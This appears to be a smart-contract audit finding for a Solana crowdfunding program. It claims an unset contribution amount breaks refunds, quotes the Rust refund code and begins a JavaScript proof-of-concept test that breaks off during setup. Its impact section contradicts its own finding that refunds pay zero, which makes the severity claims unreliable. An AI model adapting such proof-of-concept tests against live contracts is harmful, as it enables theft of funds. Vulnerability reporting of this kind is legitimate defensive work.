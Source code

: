 The bug is that contribution.amount is set to 0 when the account is initialized, but it's never updated with the actual contribution amount. When a user calls the refund() function, it uses contribution.amount to determine how much to refund:

```rust
pub fn refund(ctx: Context<FundRefund>) -> Result<()> {
    let amount = ctx.accounts.contribution.amount;
    // ...
    **ctx.accounts.fund.to_account_info().try_borrow_mut_lamports()? =
    ctx.accounts.fund.to_account_info().lamports()
    .checked_sub(amount)
    .ok_or(ProgramError::InsufficientFunds)?;

    **ctx.accounts.contributor.to_account_info().try_borrow_mut_lamports()? =
    ctx.accounts.contributor.to_account_info().lamports()
    .checked_add(amount)
    .ok_or(ErrorCode::CalculationOverflow)?;

    // Reset contribution amount after refund
    ctx.accounts.contribution.amount = 0;

    Ok(())
}
```

Since the contribution.amount isn't updated in contribute(), it's always 0, which means the refund operation doesn't actually refund anything. However, if an attacker manually sets contribution.amount to a non-zero value (through another attack vector or direct account modification), they could exploit this to drain funds.

## Impact

This vulnerability has high severity because:

- It allows users to potentially drain the entire fund balance through multiple refunds
- It undermines the core accounting functionality of the contract
- It affects both contributors and fund creators, potentially leading to total fund loss

## POC

```javascript
it("Exploitation scenario: Contribution tracking bypass allows multiple refunds", async () => {
  // Create a new fund for this exploit
  const exploitFundName = "Exploit Fund";
  const [exploitFundPDA] = await PublicKey.findProgramAddress(
    [Buffer.from(exploitFundName), creator.publicKey.toBuffer()],
    program.programId
  );

  await program.methods
    .fundCreate(exploitFundName, description, goal)
    .accounts({
      fund: exploitFundPDA,
      creator: creator.publicKey,
      systemProgram: anchor.web3.SystemProgram.programId,
    })
    .rpc();

  // Set deadline far in the future
  const exploitDeadline = new anchor.BN(Math.floor(Date.now() / 1000) + 10);
  await program.methods
    .setDeadline(exploitDeadline)
    .accounts({
      fund: exploitFundPDA,
      creator: creator.publicKey,
```